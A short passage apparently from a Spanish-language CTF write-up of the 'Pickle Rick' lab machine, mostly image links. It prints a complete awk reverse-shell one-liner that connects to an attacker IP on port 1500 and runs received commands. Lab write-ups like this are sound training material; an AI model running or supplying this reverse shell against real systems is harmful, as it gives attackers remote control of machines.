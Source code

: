 ![](/assets/images/PickleRick/image037.png)

![](/assets/images/PickleRick/image039.png)

De esta manera llegamos a obtener acceso a la máquina Pickle Rick. 

Otra manera de obtener acceso seria verificando si existe el archivo binario `awk` en el sistema objetivo.Luego, ejecutariamos el sgte comando para generar la conexion reverse shell: `awk 'BEGIN {s = "/inet/tcp/0/10.8.123.194/1500"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null`

![](/assets/images/PickleRick/image71.png)

![](/assets/images/PickleRick/image73.png)

![](/assets/images/PickleRick/image75.png)
